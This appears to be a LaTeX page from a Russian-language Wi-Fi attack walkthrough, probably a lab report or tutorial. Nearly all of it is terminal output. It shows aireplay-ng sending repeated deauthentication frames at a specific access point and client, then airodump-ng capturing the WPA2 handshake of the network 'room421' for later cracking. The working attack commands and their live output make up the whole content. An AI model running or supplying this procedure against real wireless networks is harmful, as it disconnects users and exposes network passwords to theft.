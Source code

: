 \documentclass[10pt,a4paper]{report}
\begin{document}
\begin{lstlisting}
sba@sba-Lenovo-G580:~$ sudo aireplay-ng --ignore-negative-one --deauth 150 -a D8:5D:4C:DA:F8:2E -h FC:F8:AE:DA:5D:18 mon1

13:20:09  Waiting for beacon frame (BSSID: D8:5D:4C:DA:F8:2E) on channel -1
13:20:10  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [32|69 ACKs]
13:20:11  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [35|63 ACKs]
13:20:11  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 3|57 ACKs]
13:20:12  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 0|59 ACKs]
13:20:12  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 2|56 ACKs]
13:20:13  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 0|60 ACKs]
13:20:13  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 0|60 ACKs]
13:20:14  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 0|57 ACKs]
13:20:14  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [10|55 ACKs]
13:20:15  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 4|58 ACKs]
13:20:15  Sending 64 directed DeAuth. STMAC: [FC:F8:AE:DA:5D:18] [ 0|57 ACKs]

\end{lstlisting}
В результате перехватываем пакет handshake:
\begin{lstlisting}
sba@sba-Lenovo-G580:~$ sudo airodump-ng mon1 --bssid D8:5D:4C:DA:F8:2E  -c 6 --write dump --ignore-negative-one

 CH  6 ][ Elapsed: 1 min ][ 2016-05-21 13:28 ][ WPA handshake: D8:5D:4C:DA:F8:2E                                         
                                             
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                               
 D8:5D:4C:DA:F8:2E  -32 100      712     5574  166   5  54 . WPA2 CCMP   PSK  room421                                                
                                              
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                           
                                             
 D8:5D:4C:DA:F8:2E  D8:E5:6D:94:90:46  -49   54 - 6      0      126  room421                                                          
 D8:5D:4C:DA:F8:2E  FC:F8:AE:DA:5D:18  -51   54 -48      3     5129         
\end{lstlisting}
\end{document}
